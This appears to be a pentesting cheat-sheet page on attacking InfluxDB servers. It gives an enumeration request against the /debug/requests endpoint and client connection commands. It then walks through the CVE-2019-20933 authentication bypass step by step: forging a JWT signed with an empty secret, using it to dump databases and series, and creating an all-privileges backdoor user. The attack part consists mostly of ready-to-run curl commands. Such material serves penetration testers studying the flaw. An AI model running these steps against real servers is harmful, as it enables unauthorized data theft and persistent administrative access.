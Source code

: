 ```yaml
---
title: InfluxDB Pentesting
description: InfluxDB is a time series database written in Go. A default port is 8086.
tags:
    - Database
refs:
    - https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
date: 2023-02-05
draft: false
---
```


## Enumeration

```bash
# User enumeration
curl http://<target-ip>:8086/debug/requests
```

<br />

## Connect

```bash

influx -host 10.0.0.1 -port 8086
influx -host 10.0.0.1 -port 8086 -database <database>
influx -host 10.0.0.1 -port 8086 -username <username>  -password <password>

# Import db file
influx -path example.db
```

<br />

## Authentication Bypass (CVE-2019-20933) version ≤ 1.7.6

### Automation

[https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

### Manual

Reference: [https://www.komodosec.com/post/when-all-else-fails-find-a-0-day](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day)

Firse find the username.

```bash
curl http://<target-ip>:8086/debug/requests
```

Then create a JWT using the name we found in [jwt.io](https://jwt.io/).  
Parameters are below:

```txt
Header:
    
{ “sub”: “123456789”, "alg": "HS256", "typ": "JWT" }
    
Payload:
    
{ "username": "**<username>**",  "exp":21548669066 }
    
Verify Signature:
    
HMACSHA256(base64UrlEncode(header) + "." +base64UrlEncode(payload),<e**mpty>**)
```
    

Copy the generated JWT.  
Now we can query the InfluxDB API.

```sh
INFLUXDB_JWT="<JWT>"
# List databases
curl http://<target-ip>:8086/query -H "Authorization: Bearer $INFLUXDB_JWT" --data-urlencode 'q=SHOW DATABASES' | jq
# List seriest in the database
curl http://<target-ip>:8086/query -H "Authorization: Bearer $INFLUXDB_JWT" --data-urlencode 'db=<database>' --data-urlencode 'q=SHOW SERIES' | jq
# Get values in the series
curl http://<target-ip>:8086/query -H "Authorization: Bearer $INFLUXDB_JWT" --data-urlencode 'db=<database>' --data-urlencode 'q=SELECT * FROM <series>' | jq

# Create a privileged account
curl http://<target-ip>:8086/query -H "Authorization: Bearer $INFLUXDB_JWT" --data-urlencode "q=CREATE USER tester with PASSWORD 'password' with ALL PRIVILEGES"
```

<br />

## Commands

```bash
# Show command history
> history
# Show settings
> settings

# List databases
> show databases
# Show series information
> show series
# Show measurement information
> show measurements
# Show tag key information
> show tag keys
# Show field key information
> show field keys

# Switch to the database
> use <database>
# Query in the database
> select * from <series>
```